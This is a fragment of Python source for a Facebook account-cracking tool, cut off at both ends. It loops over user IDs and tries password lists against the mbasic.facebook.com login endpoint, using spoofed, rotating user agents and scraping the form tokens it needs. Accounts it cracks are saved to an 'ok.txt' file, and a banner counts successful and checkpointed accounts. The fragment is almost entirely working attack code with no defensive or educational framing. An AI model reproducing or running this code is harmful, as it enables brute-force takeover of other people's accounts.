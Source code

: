 				open('/sdcard/ids/ok.txt','a').write('%s\n' % wrt)

				follow(ses,coki)

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

	loop+=1

def free(idf,pwv):

	global loop,ok,cp

	bi = random.choice([u,k,kk,b,h,hh])

	pers = loop*100/len(id2)

	fff = '%'

	sys.stdout.write('\r %s[ TALHA ] %s•%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),

	sys.stdout.flush()

	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	for pw in pwv:

		try:

			pw = pw.lower()

			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})

			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text

			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://mbasic.facebook.com/login/save-device/'"}

			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
